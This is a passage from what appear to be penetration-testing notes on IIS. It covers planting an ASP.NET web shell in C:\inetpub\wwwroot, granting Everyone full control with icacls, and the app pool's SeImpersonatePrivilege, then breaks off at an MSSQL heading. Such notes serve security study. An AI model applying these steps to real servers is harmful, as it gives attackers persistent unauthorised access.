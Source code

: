 ### Web Shells
- IIS runs with `iss apppool\defaultapppool`, this is an unprivileged user, but it has `SeImpersonatePrivilege`.
- ASP.NET shell can be placed in the web root directory, `C:\inetpub\wwwroot`.
```powershell
move shell.aspx C:\inetpub\wwwroot\
```
- It might be that the `iis apppool\defaultapppool` doesn't have the permission to read the file.
- Permission of the file can be changed using `icacls`
```powershell
icacls.exe shell.aspx /grant Everyone:F
```
- The web shell can be located at http://server.com/shell.aspx.
### MSSQL